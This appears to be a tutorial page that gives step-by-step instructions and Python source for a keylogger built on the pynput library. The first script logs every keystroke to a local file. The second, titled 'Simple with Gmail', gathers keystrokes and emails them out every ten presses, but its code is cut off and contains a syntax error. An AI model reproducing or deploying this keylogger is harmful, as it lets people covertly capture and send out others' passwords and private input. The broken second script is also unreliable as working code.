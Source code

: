 ### Implementation in Python

To create a simple keylogger in Python, we can use the `pynput` library, which allows us to monitor and control input devices. The following steps will guide us through the implementation:

#### Step-by-Step Explanation

1. **Install Required Library**: Install the `pynput` library using pip.
2. **Import Required Modules**: Use `pynput` to monitor keyboard events.
3. **Define a Callback Function**: Create a function that will be called whenever a key is pressed.
4. **Write Keystrokes to a Log File**: Store the captured keystrokes in a file for later analysis.
5. **Set Up a Keyboard Listener**: Use `pynput` to set up a listener that monitors keyboard events and calls the callback function for each key press.

#### Python Codes

First, ensure you have the `pynput` library installed:
```sh
pip install pynput
```

Then, create the keylogger script:
### Code 1 
```python
from pynput import keyboard

def on_press(key):
    try:
        with open("keylog.txt", "a") as log_file:
            log_file.write(f"{key.char}")
    except AttributeError:
        with open("keylog.txt", "a") as log_file:
            log_file.write(f"{key}")

def on_release(key):
    if key == keyboard.Key.esc:
        return False

with keyboard.Listener(on_press=on_press, on_release=on_release) as listener:
    listener.join()
```

### Code 2 Simple with Gmail 

First, ensure you have the `pynput` library installed:
```sh
pip install pynput
```
```python
import pynput  #Main librarry that records the keypresses - install by typing pip install pynput on your CL
from pynput.keyboard import Key, Listener
import send_email

count = 0
keys = []

def on_press(key) :    #Defining the on press function 
  print (key. end= " ")  #When any key except esc is pressed, the progrm starts capturing keystroks
  print ("pressed")
  global keys, count
  keys.append(str(key))
  count += 1
  if count > 10:  #Everytime there is a keystrock beyond 10, the email(keys) will be activated
    count = 0
    email(keys)
```